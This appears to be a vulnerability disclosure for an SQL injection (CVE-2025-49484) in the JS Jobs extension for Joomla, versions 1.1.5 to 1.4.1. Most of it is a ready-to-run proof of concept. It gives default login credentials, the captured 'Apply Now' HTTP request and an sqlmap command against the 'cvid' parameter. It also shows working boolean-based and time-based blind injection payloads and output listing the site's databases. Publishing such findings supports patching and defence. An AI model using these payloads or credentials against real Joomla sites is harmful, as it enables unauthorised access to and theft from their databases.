 # SQL injection in JS jobs version 1.1.5 - 1.4.1 for Joomla

**CVE Link:** https://www.cve.org/CVERecord?id=CVE-2025-49484

**JS Jobs:** https://joomsky.com/js-jobs-joomla

## Introduction
An SQL injection vulnerability exists in the JS Jobs extension (v1.4.1) via the 'cvid' parameter and is exploitable as the jobseeker user.

## POC
To exploit this vulnerability login as the jobseeker user with default credentials (jobseeker:demo) and go to 'jobseeker-controlpanel >> My Stuff >> Newest Jobs >> Newest Jobs >> Apply Now >> Apply Now' and capture the "Apply Now" request.

**HTTP Request:**
```
POST /index.php?option=com_jsjobs&task=jobapply.jobapplyajax HTTP/2
Host: localhost:8080
Cookie: joomla_user_state=logged_in; 67aa5f9b49e233456b916ea62ef1447b=kjou43pssdvaa5plr84dhc8P64
Content-Length: 38
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Sec-Ch-Ua: "Chromium";v="137", "Not/A)Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://localhost:8080
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:8080/index.php/component/jsjobs/newest-jobs?Itemid=
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

jobid=1&cvid=1&coverletterid=4&uid=460
```

**Exploit:**
```
sqlmap -r req.txt --dbs --batch -p cvid --dbms=mysql --threads=10
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.9.1.2#dev}
|_ -| . [']     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

---
Parameter: cvid (POST)
Type: boolean-based blind
Title: Boolean-based blind - Parameter replace (original value)
Payload: jobid=1&cvid=(SELECT (CASE WHEN (7270=7270) THEN 1 ELSE (SELECT 6098 UNION SELECT 7386) END))&coverletterid=4&uid=460

Type: time-based blind
Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
Payload: jobid=1&cvid=1 AND (SELECT 6497 FROM (SELECT(SLEEP(5)))EAyv)&coverletterid=4&uid=460
---

available databases [2]:
[*] joomla_db
[*] information_schema
```
